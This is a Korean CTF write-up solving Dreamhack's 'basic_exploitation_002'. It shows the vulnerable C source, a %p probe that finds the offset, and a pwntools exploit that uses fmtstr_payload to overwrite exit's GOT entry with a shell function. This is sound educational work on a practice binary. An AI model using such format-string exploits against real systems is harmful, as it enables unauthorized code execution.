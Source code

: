 # [Dreamhack] basic_exploitation_002 풀이

---

# C 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```

일단 main함수의 read부분에서 0x80만큼 받게 지정해둬서 오버플로우는 발생시키지 못 할꺼같다.

하지만 그 밑에 printf부분에서 FSB취약점이 발생하는걸 볼 수 있다. exit()의 got주소를 get_shell의 주소로 바꿔주면 될꺼같다.

---

# 파일 분석

우리가 디버깅을 하면서 알아내야 하는 정보를 정리해보자

- 입력한 값을 받는 오프셋
- exit함수의 got주소
- get_shell의 주소

디버깅은 peda를 사용했습니다.

$ exit의 got주소와 get_shell의 주소는 pwntools를 사용해서 구하겠다. $

그럼 이제 알아야하는건 오프셋만 남았다.

실행시키고 aaaa.%p.%p.%p.%p.%p.%p.%p 를 입력해서 확인해보자

```bash
❯ ./basic_exploitation_002 
aaaa.%p.%p.%p.%p.%p.%p.%p
aaaa.0x61616161.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0xf7f80a70
```

이제 모든 정보를 얻었으니 익스플로잇 코드를 짜보자.

---

# Exploit

```python
from pwn import *

p = process("./basic_exploitation_002")

e = ELF('./basic_exploitation_002')

shell_addr=e.symbols['get_shell']
exit_got=e.got['exit']

payload=fmtstr_payload(1,{exit_got:shell_addr})

p.sendline(payload)
p.interactive()
```

이번 코드를 짤때는 pwntools의 fmtstr_payload 함수를 사용해보았다. 이 함수는 FSB의 페이로드를 짜주  는 함수이다. 구조를 간단하게 설명해보면 

fmtstr_payload(”오프셋”,{”덮힐주소”: “덮을주소”})

이런식으로 사용하면 된다.

한번 실행시켜보자.

![Screenshot from 2022-10-18 15-08-00.png](/4%EC%A3%BC%EC%B0%A8/IMG/basic_ex2.png)

쉘이 따진 모습!